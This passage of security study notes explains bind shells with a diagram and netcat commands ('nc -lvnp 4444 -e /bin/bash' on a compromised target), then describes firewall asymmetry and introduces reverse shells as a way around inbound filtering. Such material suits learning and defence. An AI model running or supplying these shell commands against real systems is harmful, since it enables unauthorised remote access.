 ```
Attacker Machine                    Target Machine
     |                                    |
     |                              Opens port 4444
     |                              Listens for connection
     |                                    |
     |  ---- Connects to port 4444 ---->  |
     |                                    |
     |  <------- Shell access --------    |
```

## Simple Example

**On target** (via RCE):
```bash
nc -lvnp 4444 -e /bin/bash
```

**On your machine**:
```bash
nc target_ip 4444
```

## Why Bind Shells Are Impractical

### Firewall Blocking
Firewalls typically operate with these rules:
- Incoming connections== deny by default==, allow specific ports (whitelist approach)
- Outgoing connections ==allow by default==, deny specific destinations (blacklist approach)

**Even if you successfully open a listener on the target**, the firewall (which sits in front of the machine) will still drop incoming packets according to its rules. In this case, your bind shell on port 4444 gets blocked at the firewall level before packets even reach your listener.

### Why Firewalls Allow This Asymmetry
**Incoming connections** (strict):
- Could be anyone on the internet
- Potential attackers trying to access services
- Must be explicitly allowed

**Outgoing connections** (lenient):
- Initiated by internal users/applications
- Needed for normal operations (web browsing, API calls, updates)
- Blocking would break legitimate functionality

# Reverse Shells

## The Core Concept
A **reverse shell** inverts the normal client-server relationship. Instead of you connecting to the target, the target connects back to you. Since outgoing connections are typically allowed by firewalls, the target can initiate a connection to your machine. This bypasses the firewall's incoming connection restrictions.
